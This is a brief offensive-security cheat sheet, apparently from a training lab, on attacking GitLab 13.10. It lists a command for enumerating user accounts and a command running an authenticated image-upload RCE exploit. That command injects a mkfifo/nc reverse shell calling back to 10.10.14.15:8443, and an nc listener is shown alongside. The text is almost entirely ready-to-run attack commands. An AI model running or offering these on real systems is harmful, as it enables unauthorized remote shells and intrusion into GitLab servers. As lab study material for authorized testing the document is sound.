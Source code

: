 
### User Enuemration

[GitLab User Enum 13.10.3](https://www.exploit-db.com/exploits/49821)

default usage
```shell-session
./gitlab_userenum.sh --url http://gitlab.inlanefreight.local:8081/ --userlist users.txt
```

### Authenticated RCE

[Image upload RCE](https://www.exploit-db.com/exploits/49951)

default usage
```shell-session
python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f '
```

listener
```shell-session
nc -lnvp 8443
```




